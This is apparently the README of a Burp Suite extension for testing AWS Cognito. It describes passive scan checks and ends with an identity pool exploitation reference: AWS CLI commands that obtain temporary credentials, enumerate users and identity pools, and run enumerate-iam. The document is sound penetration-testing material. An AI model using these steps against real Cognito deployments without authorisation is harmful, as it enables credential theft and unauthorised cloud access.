





# AWS Cognito (Using the Montoya API)

__Author: Nick Coblentz__

Building this plugin was possible thanks to my employer and friends at: https://www.virtuesecurity.com

This extension helps identify key information from requests to AWS Cognito, provides several passive scan checks, and suggests HTTP request templates for exploiting several known vulnerabilities. Features include:
- Proxy History: Adding comments to Burp Proxy History to reflect the Cognito Method found in `X-Amz-Target: AWSCognitoIdentityProviderService.RevokeToken`
- Passive Scan Issues:
  - Log URLs observed matching `^cognito-(?:identity|idp)(?:-fips)?.[^\.]+.amazonaws.com$`
  - Log Identity Pool IDs observed in requests and suggestions for exploiting it (see below)
  - Log Client IDs observed in requests
  - Log custom user attributes found in the `idToken` or `GetUser` response
  - Log `InitiateAuth` requests and suggest request templates for `SignUp` and `UpdateUserAttributes` 
  - Log `AWSCognitoIdentityService.GetCredentialsForIdentity` requests containing temporary credentials

## Examples

### Burp Proxy Comments Reflected the `X-Amz-Target`



### Identity Pool Found



### Identity Pool URL Found



### Sign Up Request



### Generated Requests to Send to Repeater

#### Sign Up


#### UpdateUserAttributes



## Download the Plugin

See the packages section on the right hand side of this GitHub Repo. Look for `burpmontoyacognito-x.y.z-fatjar.jar`.

## How to build this plugin

### Command-Line
```bash
$ ./gradlew fatJar
```
### InteliJ
1. Open the project in Intellij
2. Open the Gradle sidebar on the right hand side
3. Choose Tasks -> Other -> fatJar

## How to add this plugin to Burp
1. Open Burp Suite
2. Go to Extensions -> Installed -> Add
    - Extension Type: Java
    - Extension file: build/libs/burpmontoyacognito-x.y.z-fatjar.jar

## Identity Pool Exploitation Reference

```bash
$ export AWS_DEFAULT_REGION="regionhere"
$ export AWS_IDENTITY_POOL_ID="identitypoolidhere"
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID #anonymous attempt
$ #idtoken is found after logging in with a normal user to AWS Cognito as part of the normal application flow 
$ aws cognito-identity get-id --identity-pool-id $AWS_IDENTITY_POOL_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvaluehere #authenticated, Produces an IdentityId (use below)
$ export AWS_IDENTITY_ID="valuefromabove"
$ aws cognito-identity get-credentials-for-identity --identity-id $AWS_IDENTITY_ID --logins cognito-idp.$AWS_DEFAULT_REGION.amazonaws.com/issuerfromidtokenhere=idtokenvalueherefrominitauthresponse # Produces SessionToken, SecretKey, SecretKey
$ export AWS_ACCESS_KEY_ID="...";export AWS_SECRET_ACCESS_KEY="...";export AWS_SESSION_TOKEN="..."
$ aws sts get-caller-identity #check what additional roles this token has
$ aws cognito-identity describe-identity --identity-id $AWS_IDENTITY_ID</code></li>
$ aws cognito-identity describe-identity-pool --identity-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity list-identity-pools --max-results 100</code></li>
$ aws cognito-identity list-identities --identity-pool-id $AWS_IDENTITY_POOL_ID --max-results 100</code></li>
$ aws cognito-idp list-users --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-idp admin-list-devices --username test1 --user-pool-id $AWS_IDENTITY_POOL_ID</code></li>
$ aws cognito-identity get-open-id-token --identity-id $AWS_IDENTITY_ID --no-sign</code> and <code>aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign #Basic Flow Enabled?
$ # see https://github.com/andresriancho/enumerate-iam/pull/15/commits/77ad5b41216e3b5f1511d0c385da8cd5984c2d3c to prevent it from getting stuck
$ git clone https://github.com/andresriancho/enumerate-iam.git && cd enumerate-iam && pip install -r requirements.txt
$ ./enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID --secret-key $AWS_SECRET_ACCESS_KEY --session-token $AWS_SESSION_TOKEN --region $AWS_DEFAULT_REGION          
```
